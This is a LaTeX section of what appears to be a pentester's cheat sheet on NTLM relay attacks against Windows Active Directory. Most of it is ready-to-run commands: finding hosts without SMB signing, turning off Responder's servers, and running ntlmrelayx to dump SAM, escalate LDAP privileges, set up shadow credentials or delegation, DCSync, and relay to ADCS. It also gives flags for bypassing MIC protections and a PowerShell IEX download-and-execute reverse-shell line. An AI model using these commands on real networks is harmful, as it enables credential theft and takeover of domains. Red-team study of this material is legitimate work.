\section{NTLM Relay attack}
Other cool attacks:
\begin{itemize}
    \item \url{https://en.hackndo.com/ntlm-relay/}
    \item \href{https://www.fortalicesolutions.com/posts/keeping-up-with-the-ntlm-relay#substituting-initial-account-compromise-with-more-ntlm-relay}{Substituting Initial Account Compromise with More NTLM Relay}
    \item \url{https://github.com/CCob/lsarelayx}
    \item \url{https://github.com/mdsecactivebreach/Farmer}
    \item \url{https://www.blackhillsinfosec.com/wp-content/uploads/2022/10/SLIDES_CoercionsandRelays-TheFirstCredistheDeepest.pdf}

\end{itemize}
\subsection{Intro}

\subsubsection{Attack pattern}

 NTLM relay attack into three phases: 
 \begin{itemize}
     \item 
         Pre-relay: focuses on techniques that induce/coerce a client to initiate NTLM authentication for a service on a server.
         \begin{itemize}
             \item poisoning and spoofing (responder, inveigh, \href{https://github.com/RedTeamPentesting/pretender}{Pretender})
             \item coerce
         \end{itemize}

     \item
         Relay: focuses on relaying the NTLM authentication of the client to a relay target
     \item
         Post-relay: takes advantage of the authenticated session we obtained through relaying a victim's NTLM authentication. We can conduct specific post-relay attacks depending on the authenticated session's protocol.
 \end{itemize}
 

\subsubsection{Cross-protocol attacks}
\begin{figure}[!ht]
  
\includegraphics[width=\linewidth]{network/ntlm/images/ntlm_relay_attack_mindmap.png}
  \caption{NTLM relay attack mindmap}
  \label{fig:ntlm_relay_attack_mindmap}
\end{figure}

\subsubsection{Bypass Server side mitigations}
\begin{itemize}
    \item 
        {\bf Drop the MIC and Drop the MIC 2} \verb+--remove-mic+
    \item 
        {\bf Your Session Key is my Session Key} \verb+-remove-target+
\end{itemize}



\subsection{Hunting for relay targets}

\subsubsection{RunFinger}

\begin{verbatim}
python3 RunFinger.py -i 172.16.117.0/24
\end{verbatim}

\subsubsection{CrackMapExec}
\begin{verbatim}
# Signing Disabled - Host Enumeration
crackmapexec smb 192.168.1.0/24 --gen-relay-list relaylistOutputFilename.txt
\end{verbatim}

\subsubsection{LdapRelayScan}

\subsubsection{Windows PsMapExec}

\begin{verbatim}
PsMapExec -Targets all -GenRelayList
\end{verbatim}

\subsubsection{nmap}
\begin{verbatim}
nmap -Pn --script=smb2-security-mode.nse -p 445 172.16.117.0/24 --open
\end{verbatim}

\subsection{Obtaining traffic}

\subsubsection{Poison / spoof}

In case of Poison / spoof with responder ensure that the corresponding server are disabled.
\begin{verbatim}
$ sed -i "s/SMB = On/SMB = Off/; s/HTTP = On/HTTP = Off/" /usr/share/responder/Responder.conf
\end{verbatim}


\subsubsection{Farming hashes}
See~\ref{smb:farming-hashes} mssql fonction \verb+xp_dirtree+ can also be used.

\subsubsection{Authentication coercion}
See~\ref{ad:auth-coercion}


\subsection{Windows: ntlmrelayx}

\href{https://github.com/The-Viper-One/RedTeam-Binaries/blob/main/ntlmrelayx.exe}{NTLMrelayx.exe} in conjonction with \href{https://github.com/Arno0x/DivertTCPconn/tree/master/compiled_binaries/Binaries_x64}{DivertTCPconn} 

\begin{verbatim}
# Configure DivertTCPconn to redirect SMB traffic to port 8445
.\divertTCPConn.exe 445 8445

# Set up NTLMRelayx
# Dump SAM
.\ntlmrelayx.exe --smb-port 8445 -t [IP] or [CIDR] -smb2support

# Execute Command
.\ntlmrelayx.exe --smb-port 8445 -t [IP] or [CIDR] -smb2support -c "ipconfig"
\end{verbatim}

Once both tools have been setup trigger LLMNR poisoning to capture a NTLMv2 request and then relay to a host that does not have SMB signing required.

\subsection{Impacket ntlmrelayx}
In case of poisoning with \verb+Responder+, responder smb/http servers must be turned off in config file 


relay and perform attacks

Support:
\begin{itemize}
    \item 
        One-Shot Attack (the original approach), 
    \item 
        Reuse Every Session (the SOCKS approach)
    \item 
        Multi-relay Attacks (default for smb/http) \verb+-no-multirelay+
\end{itemize}

\subsubsection{Multi-relay and Target Definition}

\begin{itemize}
    \item general targets (\verb+<ip>+) or \verb+scheme://<ip>:<port>+
    \item named target (\verb+scheme://authority/path+):
        \begin{itemize}
            \item scheme (targeted protocol): ldap, http, smb, all
            \item authority \verb+DOMAIN_NAME\\USERNAME@HOST:PORT+
            \item path: only required for specific attacks such as when accessing access-restricted web endpoints
        \end{itemize}
\end{itemize}


multi-relaying is disabled when attacking a single general target. ntlmrelayx will only relay the first NTLM auth. To enable multi-relay the target must be set in a file and use \verb+-tf+
\subsubsection{Socks}

\verb+stopservers+ command 

\subsubsection{Interactive}

alternative we can use the \verb+--interactive/-i+ option to launch an SMB client shell for each ntlmrelayx established authenticated session

The SMB client shell will listen locally on a TCP port, and we can reach it with tools such as \verb+nc+

\subsubsection{Relay over SMB}
By default, if the session has highly privileged access on the target machine, ntlmrelayx will try to perform a SAM dump.

\begin{itemize}
    \item command execution : \verb+<NTLMRELAYX_CMD> -c 'ping -n 1 172.16.117.30'+
    \item nishang reverseshell :
        \verb+<NTLMRELAYX_CMD> -c "powershell -c IEX(New-Object NET.WebClient).DownloadString('http://<ip>:<http_port>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress <ip> -Port <port>"+

\end{itemize}

\subsubsection{Relay over MSSQL}
For any post-relay attacks targeting MSSQL, you must switch to the root 

\begin{verbatim}
$ sudo ntlmrelayx.py -t mssql://172.16.117.60 -smb2support -socks

$ echo 'mssql://172.16.117.60' > target.txt 
$ sudo ntlmrelayx.py -tf target.txt  -smb2support -socks

scheme://DOMAIN\\USER@TARGETIP


$ proxychains -q mssqlclient.py INLANEFREIGHT/nports@172.16.117.60 -windows-auth -no-pass

\end{verbatim}

\subsubsection{Relay over LDAP}
By default ntlmrelayx will try to dump domain information, add a new domain admin, and escalate privileges via misconfigured ACLs/DACLs attacks

\begin{verbatim}

# dump AD
$ sudo ntlmrelayx.py -t ldap://172.16.117.3 -smb2support --no-da --no-acl --lootdir ldap_dump


# Add computer
$ sudo ntlmrelayx.py -t ldap://172.16.117.3 -smb2support --no-da --no-acl --add-computer 'plaintext$'

# Escalate user
$ sudo ntlmrelayx.py -t ldap://172.16.117.3 -smb2support --escalate-user 'plaintext$' --no-dump -debug

# Escalate create rbcd (SQL01$ delegate to plaintext$) 
sudo ntlmrelayx.py -t ldaps://INLANEFREIGHT\\'SQL01$'@172.16.117.3 --delegate-access --escalate-user 'plaintext$' --no-smb-server --no-dump

# Shadow credentials (generate a pfx to use with gettgtpkinit.py)
ntlmrelayx.py -t ldap://INLANEFREIGHT.LOCAL\\<relayed_account>@172.16.117.3 \
    --shadow-credentials --shadow-target <target_account> \
    --no-da --no-dump --no-acl
\end{verbatim}

\subsubsection{Relay over HTTP}
allow to bypass \verb+WWW-Authenticate: NTLM+



\subsubsection{Relay over imap}

\subsubsection{Relay over RPC}

\begin{itemize}
    \item \href{https://blog.compass-security.com/2020/05/relaying-ntlm-authentication-over-rpc/}{Relaying NTLM authentication over RPC}
\end{itemize}


\subsubsection{Relay over ALL}
\begin{verbatim}

$ sed -i '4,18s/= On/= Off/g' /usr/share/responder/Responder.conf
sudo ntlmrelayx.py -tf relayTargets.txt -smb2support -socks

\end{verbatim}

\subsubsection{Relay misc}

relay do dcsync:
\begin{verbatim}
impacket-ntlmrelayx -t dcsync://172.16.18.4 -smb2support
\end{verbatim}

relay to adcs:
\begin{verbatim}
ntlmrelayx -t http://172.16.18.15/certsrv/default.asp -smb2support \
    --template DomainController \
    --adcs
\end{verbatim}
to find the webenrollement url (to test): 
\begin{verbatim}
(Get-CASite -Name "MyCA").WebEnrollmentURI
\end{verbatim}
use \href{https://github.com/zer1t0/certi}{certi} to find the URL of the CA

\begin{verbatim}
Get-ADObject -Identity "CN=MyCA,CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=domain,DC=com" -Properties caWebEnroll | Select-Object caWebEnroll
\end{verbatim}


\subsection{Multirelay}
\subsection{Inveigh-Relay}


\subsection{links}
\begin{itemize}
    \item \href{https://en.hackndo.com/ntlm-relay/}{hackndo NTLM Relay}
    \item
        \href{https://hunter2.gitbook.io/darthsidious/execution/responder-with-ntlm-relay-and-empire}{Responder
        with NTLM relay and Empire}
    \item
        \href{https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/}{Abusing
        Exchange: One API call away from Domain Admin }
    \item
        \href{https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/}{Combining
        NTLM Relaying and Kerberos delegation}
    \item
        \href{https://www.trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022/}{A
        comprehensive guide on relaying anno 2022}
\end{itemize}
